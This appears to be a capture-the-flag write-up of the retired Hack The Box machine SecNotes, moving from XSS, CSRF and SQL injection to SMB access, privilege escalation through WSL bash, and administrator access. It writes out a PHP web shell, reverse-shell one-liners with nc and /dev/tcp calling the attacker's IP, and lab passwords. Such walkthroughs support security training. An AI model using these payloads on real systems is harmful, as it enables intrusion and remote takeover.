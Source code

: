 ```yaml
---
title: "SecNotes HTB"
date: 2024-07-02 21:55:00 +0800
categories: [SecNotes, Medium]
tags: [Secnotes]
---
```



![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*uMQqZEswmPNsTNV0HSvfeQ.jpeg)
Another Retired Machine in the path of progressing for the OSCP.
Reconnaissance:
** Analyzing Nmap result: ** 
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*7-xk3boB3__EgXJ-XhEisw.png)


we don’t really have that many ports to attack except 80 HTTP, 445 NetBIOS, and 8808 HTTP.

**Enumeration: **
Getting started with our 445 SMB, we don’t really have anything right now. Since an anonymous login is not allowed in this case. enum4linux or smbmap or smbclient. Has no use right now. There seems to be a website running on port 80 http. So, browsing to http://10.10.10.97 would let us redirected to the /login.html.

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*g8lFPA7iSX8RMs8sc4HGfw.png)

You can always try default credentials such as admin-password or user-password etc; And then wordlists or some SQL injections for fuzzing.

**Method #1 Cross-Site Request Forgery:
Sign up now button:
**
Since, There is a signup button we can register a user ourselves, and logging in can grant us a new empty user.

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*D5CAfSgYo-NocTNKhZBwrA.png)

![Untitled](https://miro.medium.com/v2/resize:fit:828/format:webp/1*uSh7-kTqBN-bTAG1YmmYsw.png)

By understanding these options one by one in hand. can help us understand what type of vulnerabilities were present in the web server manually.

**Create New Note:**

In the view source(Ctrl+U) I’ve seen the Note textarea box has been enclosed by <textarea> HTML tag. So, I’m gonna close it with </textarea> and use our script command. If in this case it doesn’t we will go crafting it further improvising.

For the POC (proof of concept) document.write(document.cookie) inside the <script> tag.


![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*CJjyxFDFxNpMXzOynxv97g.png)

Saving it redirects to the home page. And it’s working. we just discovered an XSS Vulnerability.

![Untitled](https://miro.medium.com/v2/resize:fit:828/format:webp/1*gnskB5H2uS6536RD-GseUA.png)

**Contact Us:**

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*le1FPoxkwUj1Kz2kfwobcg.png)

There is a message box that seems to help us contact Tyler. So, Tyler seems to be an authenticated user. After sending it, it just redirects with a Pop up on the home screen “Message Sent”.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*-q7Ew1mg5OjS_gpG2xq-bA.png)

**Update Password:**

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*7S5oWULpGkAiUSobP8r8tQ.png)

Interestingly, They weren’t asking for the old password while updating the new password. This might help us combine all other functionalities together to get access to Tyler’s user account.

While listening on port 80 with nc -lvnp 80 on our attack machine and sending the message.

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*iaZ1F7jqicSC_AUowxCsYw.png)

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*34IzD0zVEAq1KU_zAykDcQ.png)

Gave us info, That there was a connection from port 51601 Windows Powershell from our victim machine. This means the Tyler user is automatically accessing the link.

**Exploitation:**
We this information in hand we can totally compromise the Tyler account😁. How?

Let’s Dive in,

While changing the password if intercept the request.

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*By8Kc8kifosZFnuMXsqdbA.png)

Right-click on the code and select the change request method.

![Untitled](https://miro.medium.com/v2/resize:fit:720/format:webp/1*LQynqdDE738QTLLg9ZMnqQ.png)

Since Whatever link is being opened seems to be opened by Tyler. At this point. we could try injecting an HTML payload for a CMD shell.

But our end goal here is to change the password. Based on this burp suite request we can make Tyler open the link to change his own password.

http://10.10.10.97/change_pass.php?password=password&confirm_password=password&submit=submit
http:10.10.14.17

Now, let’s contact Tyler!!

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*J_JKHDcbxRsvC4BldoNiiQ.png)

With that, the password would be changed!!!!

Try logging, in with our new password and this should be working😁.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*moTRdxMzG6qycUZYca4kgw.png)

If this wasn’t working,

![Untitled](https://miro.medium.com/v2/resize:fit:720/format:webp/1*OMtI3QJwLsJGNNIb4M8XPw.gif)

**Method #2: Alternate way [SQL Injection]:**
Since The server is been accessing the different notes with ID, So there should be a database running along with the web server.

Since horizontal access is prevented from accessing the ID of the note. Let’s start enumeration with the register. If we can get some account. The fact that you can create a password for a valid user is possible. Makes this more possible. You can fire up the burp suite and do some brute-forcing with the following SQL Injection list. To find the one that’s working.


![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*UkKAVhHtf3xWkThtfqvaLA.png)

This should be working since Select * from users WHERE “Hello OR 1=1 —

Always comes out to be TRUE.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*j843uD3Rhc8Iiw3nIi6iuw.png)

Where “—” is for commenting out in HTML. This gonna work. Since The web server is vulnerable to SQL Injections.

Logging in with our new credentials should let us access the Tyler User. Since it seemed to be the only other valid user.
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*UJaL9Ec_0RBKdgca1WF66A.png)


![Untitled](https://miro.medium.com/v2/resize:fit:458/format:webp/1*_cVkn1dDQ9G8vxRcoaQQZw.gif)


**Getting a Shell:**

Browsing through the notes we can spot there is a sub-directory and the other information looks like it is the username and password.

With all this let’s see if we access the SMB Shares. Since the Anonymous login didn’t work out. This might be our shot.

First, let’s verify that with the smbmap for detailed information on what’s there to come.

smbmap -H 10.10.10.97 -u tyler -p ‘92g!mA8BGjOirkL%OG*&’

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*7kNWAraizpQyKYKt-j26jQ.png)

There is a share we can access here and have read and write permissions. Let’s dive in!!

smbclient \\\\10.10.10.97\\new-site -U tyler

And Enter the password. That lets us to SMB Shell.

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*dah9GlSZ1pInMHG_KUCtaw.png)

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*RuShR7o-030g8BmKUPSLlA.png)

The files resemble the iisstart page we got on the port 8808.


![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*k5Wh3709tqjXCRtI2_09dQ.png)

Possibly these web servers are accessing files from these shares.
 
I tried generating a .aspx payload with msfvenom, but it didn’t work out. So, the web server seems to accept only php files. Fortunately for us, PHP files can call system commands, so let us craft a PHP file and upload it.


![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*-EOa-5N9B8I9fsKvzPoUNw.png)

Fortunately for us, PHP files can call system commands, so let us craft a PHP file and upload it.


![Php echo](https://miro.medium.com/v2/resize:fit:640/format:webp/1*XZFdT9lebtp1gd8db9DqqQ.png)

<?php echo “Shell”;system($_GET[‘cmd’]); ?>

[Github Link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/shell.php)

on SMB shell upload this payload using the put command. put shell.php

![](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*dg9g2vTbb8FmCKCuNOz0NQ.png)

For getting a PowerShell we need a Netcat one-liner to be executed as a command. I’ll show you what I mean.

nc.exe 10.10.14.17 443 -e powershell

you can easily spot the nc.exe file in /usr/share/seclists/Web-Shells/FuzzDB if you’re using Kali Linux.

Be sure to upload Netcat and the payload again(it gets deleted after some time since the server completely blocks it).

![Netcat Listener](https://miro.medium.com/v2/resize:fit:640/format:webp/1*D3u95E29JfaWTwj0YgcG9w.png)

Titidi dididi!! We got our Foothold with the powershell. with the same shell as smb but we have more control now🥳.

![Untitled](https://miro.medium.com/v2/resize:fit:786/format:webp/1*D7lODgpD3Oudgybl7OZVSA.png)

Grab the user flag🤧.

![Wounded Thinking](https://miro.medium.com/v2/resize:fit:640/format:webp/1*dB1Kp6HmPaKpSUuNpM4_pw.png)

![Dinner Ready](https://miro.medium.com/v2/resize:fit:828/format:webp/1*g08G8kcIAiEXVSrbq2Et9w.gif)

Getting a user flag is the hardest part for the Medium machine at Hackthebox.

Now now, Let’s hunt the root flag…😋

![Dinner Ready](https://miro.medium.com/v2/resize:fit:400/format:webp/1*dK8T1Lk88UcvQgPH5N6PIw.gif)

**Privilege Escalation:**
Now, as we have some foothold for the machine.

There is a file check-message.ps1 inside secnotes_contacts dir inside tyler’s directory.

Which has Tyler’s default password: “forested85sunk” which automatically changes every 30 seconds with this script. use these credentials for login, If your tired of using the sql injection or csrf.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*3SKWohUfCZpVlPiijslneg.png)

With Netcat, I couldn’t access or run some basic commands. So, I have decided to upgrade the command shell from Netcat to the Meterpreter shell.

In addition to this, I have uploaded a step-by-step tutorial to upgrade the Netcat shell here.

Let’s browse around to see… what we have right now.

![Untitled](https://miro.medium.com/v2/resize:fit:750/format:webp/1*01-0nsx8VUNnSFASaUu8bQ.png)

There seems to be a bash link file. Which is a good sign, bash files are executed at kernel-level access. Meaning it has root privileges.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*NxA0j_XFGLQGU22GJJ9EUQ.png)

But, When I tried executing it. it is not recognized. Seems like the file has been moved from Windows\System32 to somewhere else.

Let’s search for it.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*9Nx-k_Yw_JuU_zswK-vjhA.png)


Change the directory to that folder, And let’s see if it’s working.

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*ZCQQc9EHWGavVNQVpn0vVQ.png)


Just as we thought, It does have the root privileges. So, For this to work, I have searched one-liner for reverse shells using bash wanna Explore-More?.

bash -i >& /dev/tcp/10.10.14.17/443 0>&1

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*z5xgGevy4dymyVCCJHs2Gg.png)

Running this together and listening for this port through Netcat.

bash.exe -c “bash -i >& /dev/tcp/10.10.14.17/443 0>&1”

![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*0hUyZD9_tYBt8y8pJA5LwQ.png)

nc -lvnp 443 on our kali machine.

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*pTGoxgeBhoC59nMFumKnwQ.png)

We got the Root Shell. Since the desktop runs a WSL we are accessing a Ubuntu machine. The shell is so floppy.

![Untitled](https://miro.medium.com/v2/resize:fit:720/format:webp/1*FzE-mgeoZRWRRRWV9JqLOg.gif)
![Untitled](https://miro.medium.com/v2/resize:fit:538/format:webp/1*5FX-eIboOQj_kRoTLNZFAQ.png)

Normally listing it makes the files hidden. Since, They were created default by bash command as binaries.

So, use ls -alps or ls -al


![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*dTBsI22G2JrQ50YSM9f66A.png)

We can see there is a bash_history file, Looks interesting.

cat bash_history,

![Untitled](https://miro.medium.com/v2/resize:fit:786/format:webp/1*pb2pcblAH974QK04-B2hig.png)

And we have an Administrator and its password in the history🤩🤩!!

Let’s Verify it with smbmap,

smbmap -u ’administrator’ -p ‘u6!4ZwgwOM#^OBf#Nwnh’ -H 10.10.10.97


![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*n1jOLKELEDTk3tVTVS39cg.png)


We have all the privileges C$ and ADMIN$ SMB Share too!!🤧


![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*gBNlydYng8KAKZiH2jdPQA.png)

![Untitled](https://miro.medium.com/v2/resize:fit:640/format:webp/1*UaLtJf-mFEZHyxQHs3YeIw.png)

Root flag🥳🫡!!!

![Untitled](https://miro.medium.com/v2/resize:fit:720/format:webp/1*6iHLm137BHVEkQLP-kXvKA.gif)

Kanpai
![Untitled](https://miro.medium.com/v2/resize:fit:828/format:webp/1*XMKlLG53vUrAieJP3kMsjw.png)

**In-Summary:**

SecNotes is a medium-difficulty machine that highlights the risks associated with weak password change mechanisms, lack of CSRF protection, and insufficient validation of user input. It also teaches about Windows Subsystem for Linux enumeration.

**Mind Map (Why we are doing, What we are doing?):**
![Untitled](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*exy8kA9eZgVTVRYKu5pBlg.png)


Made with xmind.
Follow me, for more Priv Escalations / Active Directory Concepts!! Thank you for reading :-)